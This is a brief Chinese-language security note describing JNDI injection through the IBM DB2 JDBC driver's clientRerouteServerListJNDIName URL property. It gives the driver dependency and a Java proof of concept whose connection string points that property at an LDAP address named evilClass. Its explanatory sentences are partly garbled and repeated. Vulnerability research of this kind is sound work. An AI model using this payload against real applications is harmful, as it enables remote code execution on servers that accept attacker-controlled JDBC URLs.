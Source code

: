 # IBM-DB2

在DB2中，Litch1发现这个clientRerouteServerListJNDINameIdentifies。

这是一个JNDI引用，指向一个DB2ClientRerouteServerList实例，在JNDI存储库中的
clientRerouteServerListJNDIName只适用于IBM Data Server Driver for JDBC和SQL Server。
ClientRerouteServerListJNDIName仅适用于IBM Data Server Driver for JDBC和SQLJ type 4连接，以及通过DataSource接口建立的连接。
通过DataSource接口建立的连接。

这意味着这个属性在JDBC URL配置中给了我们一个JNDI注入

依赖

```xml
<dependency>
  <groupId>com.ibm.db2</groupId>
  <artifactId>jcc</artifactId>
  <version>11.5.0.0</version>
</dependency>
```

简简单单

```java
public static void main(String[] args) throws Exception {
    Class.forName("com.ibm.db2.jcc.DB2Driver");
    DriverManager.getConnection("jdbc:db2://127.0.0.1:50001/BLUDB:clientRerouteServerListJNDIName=ldap://127.0.0.1:1389/evilClass;");
}
```

